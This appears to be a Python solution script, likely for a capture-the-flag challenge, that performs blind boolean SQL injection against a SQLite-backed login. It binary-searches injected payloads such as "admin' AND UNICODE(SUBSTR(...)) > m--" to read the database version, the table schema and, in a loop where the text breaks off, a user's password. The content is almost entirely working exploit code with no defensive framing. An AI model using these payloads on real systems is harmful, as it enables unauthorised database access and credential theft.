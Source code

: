 ```python


def binary_search_leftmost(l, r, payload_with_m, token=None):
    while l < r:
        m = (l + r) // 2
        print(f"{m}    ", end="\r", flush=True)
        if sqli(payload_with_m.format(m=m), token=token):
            l = m + 1
        else:
            r = m

    # print()
    return l


def main():
    sqlite_version_length = 6
    # sqlite_version_length = binary_search_leftmost(
    #     0, 100, "admin' AND LENGTH(sqlite_version()) > {m}--"
    # )
    print(f"{sqlite_version_length=}")

    sqlite_version = "3.25.3"
    # for i in range(1, sqlite_version_length + 1):
    #     ret = binary_search_leftmost(
    #         ord(" "),
    #         ord("~"),
    #         f"admin' AND UNICODE(SUBSTR(sqlite_version(), {i}, 1)) > {{m}}--",
    #     )
    #     sqlite_version += chr(ret)
    #     print(sqlite_version, end="\r", flush=True)
    print(f"{sqlite_version=}")

    sql_length = 68
    # sql_length = binary_search_leftmost(
    #     0, 200, "admin' AND (SELECT LENGTH(sql) FROM sqlite_master) > {m}--"
    # )
    print(f"{sql_length=}")

    # sql = ""
    # for i in range(1, sql_length + 1):
    #     ret = binary_search_leftmost(
    #         ord(" "),
    #         ord("~"),
    #         f"admin' AND UNICODE(SUBSTR((SELECT sql FROM sqlite_master), {i}, 1)) > {{m}}--",
    #     )
    #     sql += chr(ret)
    #     print(sql, end="\r", flush=True)

    sql = "CREATE TABLE user (id int primary key, username text, password text)"
    print(f"{sql=}")

    record_length = 1
    # record_length = binary_search_leftmost(
    #     1,
    #     100,
    #     "admin' AND (SELECT COUNT(*) FROM user) = {{m}}--",
    # )
    print(f"{record_length=}")

    token = get_token()
    password = ""
    for i in range(1, 33):
```